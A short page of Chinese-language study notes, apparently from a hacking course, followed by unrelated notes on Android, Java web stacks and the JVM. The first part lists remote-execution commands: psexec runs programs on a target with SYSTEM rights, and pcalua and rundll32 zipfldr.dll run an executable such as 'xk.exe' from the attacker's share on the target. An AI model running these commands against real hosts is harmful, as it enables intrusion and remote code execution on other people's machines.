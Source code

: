 psexec \目标ip -u [目标用户名] -p [密码] -d notepad.exe

以system权限运行自己电脑的xk.exe

psexec \目标ip -u [目标用户名] -p [密码] -s -c c:\xk.exe

以system权限运行对方的notepad.exe

psexec \目标ip -u [目标用户名] -p [密码] -s -d notepad.exe

------

## pcalua

处理情况：

1.当前电脑硬盘不能用

2.自己权限不高

在目标上运行黑客电脑c盘的xk.exe

pcalua -m -a \黑客ip\c$\xk.exe

------

## zipfldr执行共享程序

rundll32.exe zipfldr.dll,RouteTheCall \黑客ip\c$\xk.exe

------

android

基于linux

开发语言java kotlin

应用广泛：

什么地方都有java虚拟机

java->臃肿->java虚拟机->c语言->机器语言->操作系统

oc/swift->机器语言->操作系统

------

java web（api）

jsp+linux+mysql/oracle/db2+tomcat

java—jsp—-spring（全家桶）+前端

------

jvm pc

java=>jar程序

kotlin（简单）=>jar程序
